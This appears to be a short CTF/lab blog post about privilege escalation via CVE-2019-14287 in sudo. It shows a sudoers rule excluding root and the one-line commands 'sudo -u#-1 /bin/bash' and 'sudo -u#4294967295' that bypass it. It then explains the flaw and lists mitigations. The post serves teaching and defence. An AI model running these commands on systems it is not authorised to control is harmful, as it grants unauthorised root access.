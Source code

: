 ```yaml
---
layout: post
title: "ALL=(ALL:!root)"
date: 2025-03-08 00:00:00 +0100
categories: [thm, hacking, linux]
tags: [sudo, privilege escalation, root]
---
```


![power](pics/power-0307.png)

### I want to be root!
- Usually sudo would be used like this:

```bash
sudo <command>
```

- But it is not the only way ...
- Let's imagine you ran command to check what commands could be executed by user as root and see something like this:

```bash
sudo -l


<user> ALL=(ALL:!root) NOPASSWD: /bin/bash
``` 

- So don't hesitate to try some [CVE-2019-14287](https://access.redhat.com/security/cve/cve-2019-14287) magic to become a *root*:

```bash
sudo -u#-1 /bin/bash
```
or
```bash
sudo -u#4294967295 /bin/bash
```

In certain non-default configurations, sudoers can be set to allow a user to execute commands as any user except *root* (*!root* or *!UID 0*).
Due to an input validation flaw, if a user specifies a UID of -1 (or its unsigned equivalent, 4294967295), Sudo incorrectly interprets it as 0 (root).
This means a restricted user can still escalate privileges and execute commands as root despite explicit restrictions.

Quick and easy!

### Mitigation

- Upgrade to Sudo version which patches this flaw.
- Review and update sudoers configurations to minimize unnecessary privileges.
- Use principle of least privilege (PoLP) to restrict command execution.